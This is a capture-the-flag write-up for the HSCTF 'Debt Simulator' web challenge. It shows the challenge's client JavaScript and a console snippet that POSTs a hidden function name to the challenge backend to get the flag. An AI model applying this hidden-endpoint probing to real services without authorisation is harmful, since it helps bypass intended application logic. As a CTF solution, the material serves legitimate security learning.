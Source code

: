 ## Debt Simulator
# Problem

![Webpage](./images/webpage.png)

# Solution
In Developer Tools > Sources > debt-simulator.web.hsctf.com > static > js > App.js, there is a code explaining what happens when the button is pressed. 
```js
  const onClick = () => {
    const isGetCost = Math.random() > 0.4 ? true : false;
    const func = isGetCost ? 'getCost' : 'getPay';
    const requestOptions = {
      method: 'POST',
      body: 'function=' + func,
      headers: { 'Content-type': 'application/x-www-form-urlencoded' }
    }

    fetch("https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001", requestOptions)
    .then(res => res.json())
    .then(data => {
      data = data.response;
      if (buttonText === "Play Again" || buttonText === "Start Game") {
        setButtonText("Next Round");
        setRunningTotal(0);
      }
      setMessage("You have " + (isGetCost ? "paid me " : "received ") + "$" + data + ".");
      setRunningTotal(runningTotal => isGetCost ? runningTotal - data : runningTotal + data);
    });
  }
```
It randomly picks either `getCost` or `getPay` and requests the information from the backend site. However, when you *visit* this site, you can see that there is also another allowed function: `getgetgetgetgetgetgetgetgetFlag`.

From here, you can copy `requestOptions` and the `fetch` Promise chain into the DevTools console, replacing the body with the new function and the final `.then(...)` with a print statement.

```js
    const requestOptions = {
      method: 'POST',
      body: 'function=getgetgetgetgetgetgetgetgetFlag',
      headers: { 'Content-type': 'application/x-www-form-urlencoded' }
    }

    fetch("https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001", requestOptions)
    .then(res => res.json())
    .then(data => console.log(data));
```